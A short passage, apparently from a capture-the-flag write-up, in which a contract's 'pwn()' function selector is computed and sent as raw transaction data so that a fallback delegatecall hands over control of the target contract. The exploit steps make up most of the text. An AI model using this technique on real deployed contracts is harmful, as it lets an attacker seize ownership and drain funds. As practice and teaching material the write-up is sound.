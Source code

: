 We calculate the sighash: "0xdd365b8b".
```js
sighash = web3.utils.sha3('pwn()').substring(0, 10)
```

Or via:

```solidity
// SPDX-License-Identifier: MIT

pragma solidity >0.8.0;

contract Delegate {
    // Copy the raw tx data
    function pwn() public {
    }
}
```

We use the sighash to send the raw tx from our EOA:

```js
await contract.sendTransaction({
    to: contract.address,
    data: '0xdd365b8b',
});
```
